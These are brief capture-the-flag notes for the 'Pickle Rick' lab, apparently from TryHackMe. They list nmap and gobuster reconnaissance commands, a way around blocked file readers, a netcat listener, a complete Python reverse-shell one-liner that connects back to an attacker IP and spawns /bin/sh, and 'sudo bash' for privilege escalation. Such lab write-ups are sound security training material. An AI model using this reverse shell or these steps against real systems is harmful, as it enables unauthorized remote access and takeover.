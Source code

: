 # Challenge Name: Pickle Rick
Ip Address: http://10.10.89.68/

# Use Nmap 
nmap -sC -sV -oN nmap/initial 10.10.89.68

# Use go buster
gobuster dir -u http://10.10.89.68 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,py


# We can use less to read a file if cat,vim,vi,nano are in the block list
less <filename>.<extension> or grep -R .

# Checking if there is a python installed in the target box
python3 -c 'print("Hello WOrld")'

# Listen of the incoming connection
nc -lnvp 8888

# Use Python Reverseshell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.58.221",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


# Privilege escalation 

sudo bash


